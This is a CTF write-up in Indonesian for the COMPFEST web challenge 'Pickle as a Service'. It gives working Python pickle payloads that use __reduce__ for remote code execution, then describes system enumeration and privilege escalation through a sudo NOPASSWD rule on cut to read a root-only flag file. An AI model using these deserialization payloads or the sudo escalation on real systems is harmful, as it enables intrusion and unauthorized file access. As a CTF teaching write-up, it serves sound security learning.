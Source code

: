 # Write-up: CTF COMPFEST - Pickle as a Service (Web)

## Informasi Soal

* **Nama Soal:** Pickle as a Service
* **Kategori:** Web
* **Author:** Karev

## Ringkasan (TL;DR)

Soal ini mengeksploitasi kerentanan Python "insecure deserialization" melalui modul `pickle`. Fitur unpickle pada aplikasi web memungkinkan eksekusi kode jarak jauh (RCE). Flag berada di file `flag.txt` yang hanya bisa diakses oleh `root`, namun bisa diambil dengan memanfaatkan hak akses sudo pada perintah `cut` milik user `ctfuser`.

## Tahapan Eksploitasi

### 1. Identifikasi Kerentanan & RCE Awal ⚖️

Aplikasi web memungkinkan input pickle dalam bentuk Base64 yang akan di-*unpickle* langsung di server. Kita bisa mengirimkan payload Python yang menggunakan `__reduce__` untuk mengeksekusi perintah sistem.

**Payload untuk RCE (ls /):**

```python
import pickle, base64, subprocess

class Exploit:
    def __reduce__(self):
        return (subprocess.check_output, (["ls", "/"],))

payload = pickle.dumps(Exploit(), protocol=4)
print(base64.b64encode(payload).decode())
```

### 2. Jalan Buntu: Gagal Akses /flag.txt ❌

Setelah menemukan file `flag.txt` di direktori root, mencoba `cat /flag.txt` gagal:

```
Command '['cat', '/flag.txt']' returned non-zero exit status 1.
```

Pemeriksaan hak akses:

```
-rw------- 1 root root 172 Aug  1 15:00 /flag.txt
```

File hanya bisa dibaca oleh root. Web server berjalan bukan sebagai root.

### 3. Enumerasi Sistem 🗺️

Melakukan eksplorasi direktori `/ctf`:

* Menemukan `requirements.txt` dengan `Flask==2.3.3`
* Melihat source code di `/ctf/app/app.py`, namun tidak ditemukan flag

### 4. Petunjuk User: ctfuser 🕵️

Menjalankan perintah `env`, ditemukan:

```
HOME=/home/ctfuser
```

Menandakan adanya user lain bernama `ctfuser`.

### 5. Jejak Digital: .bash\_history 📜

Membaca isi `/home/ctfuser/.bash_history`:

```
...
cat flag.txt
sudo -l
...
```

Perintah `sudo -l` adalah kunci.

### 6. Eskalasi Hak Akses 🏆

Menjalankan `sudo -l`:

```
User ctfuser may run the following commands on 62cbace086e3:
    (ALL) NOPASSWD: /usr/bin/cut
```

Berarti kita bisa menjalankan `cut` sebagai root tanpa password. Gunakan opsi `-c 1-` untuk mengambil seluruh isi file:

### 7. Payload Final untuk Ambil Flag

```python
import pickle, base64, subprocess

class Exploit:
    def __reduce__(self):
        return (subprocess.check_output, (["sudo", "/usr/bin/cut", "-c", "1-", "/flag.txt"],))

payload = pickle.dumps(Exploit(), protocol=4)
print(base64.b64encode(payload).decode())
```

**Masukkan Base64 hasil output script di atas ke form "Open the Jar"**, flag akan muncul pada bagian hasil `Recovered Ingredients`.

---

## Kesimpulan

Soal ini menekankan pentingnya tidak membiarkan `pickle.loads()` menerima input dari user tanpa validasi. Eksploitasi dilakukan dengan:

* Menyisipkan payload `__reduce__`
* Melakukan enumerasi file dan environment
* Memanfaatkan hak akses sudo pada `cut` untuk membaca file rahasia

🚀 **Eksploitasi selesai. Flag berhasil diambil!**
